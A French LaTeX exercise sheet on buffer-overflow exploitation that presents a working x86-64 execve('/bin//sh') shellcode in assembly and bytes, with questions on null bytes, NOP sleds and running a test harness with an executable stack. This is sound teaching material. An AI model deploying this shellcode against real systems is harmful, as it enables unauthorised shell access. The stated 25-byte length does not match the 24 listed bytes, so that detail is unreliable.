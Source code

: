 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\theoremstyle{definition}
\newtheorem{exercice}{Exercice}
\begin{document}
\begin{exercice}[Projet StackX64]
\begin{rappel}
\medskip
\textbf{Contrainte des null bytes :} les fonctions C de manipulation de chaînes (\texttt{strcpy}, \texttt{gets}, etc.) s'arrêtent au premier octet \texttt{0x00}. Le shellcode ne doit donc contenir \textbf{aucun octet nul}.
\end{rappel}

\medskip
Voici un shellcode x86-64 de 25 octets qui exécute \texttt{execve("/bin//sh", NULL, NULL)} :

\begin{lstlisting}[style=AsmStyle,title=Shellcode execve -- 25 octets]
xor    rsi, rsi               ; rsi = 0 (argv = NULL)
push   rsi                    ; empile 0 (terminateur de chaine)
movabs rdi, 0x68732f2f6e69622f ; rdi = "/bin//sh"
push   rdi                    ; empile "/bin//sh" sur la pile
push   rsp                    ; empile l'adresse du sommet de pile
pop    rdi                    ; rdi = pointeur vers "/bin//sh"
xor    rdx, rdx               ; rdx = 0 (envp = NULL)
mov    al, 59                 ; rax = 59 (numero syscall execve)
syscall                       ; appel systeme execve
\end{lstlisting}

Représentation en octets :
\begin{lstlisting}[style=GDBStyle]
\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68
\x57\x54\x5f\x48\x31\xd2\xb0\x3b\x0f\x05
\end{lstlisting}

\begin{enumerate}
\item[\textbf{2a)}] Pour chaque instruction du shellcode ci-dessus, expliquer son rôle dans la construction de l'appel \texttt{execve("/bin//sh", NULL, NULL)}.

\item[\textbf{2b)}] Pourquoi utilise-t-on \texttt{xor rsi, rsi} au lieu de \texttt{mov rsi, 0} pour mettre un registre à zéro ? Quel problème \texttt{mov rsi, 0} poserait-il ? (Indice : examiner les opcodes avec \texttt{objdump} ou un assembleur en ligne.)

\item[\textbf{2c)}] Expliquer le concept du \textbf{NOP sled} (\texttt{0x90} = instruction \texttt{NOP}). Dessiner un schéma montrant pourquoi on pointe vers le milieu du NOP sled plutôt qu'exactement au début du shellcode.

\item[\textbf{2d)}] Compiler et tester le programme \texttt{test\_shellcode.c} :
\begin{lstlisting}[style=GDBStyle]
gcc -z execstack -o test_shellcode test_shellcode.c
./test_shellcode
\end{lstlisting}
Que se passe-t-il ? Tapez \texttt{exit} pour quitter le shell obtenu.
\end{enumerate}


\end{exercice}
\end{document}

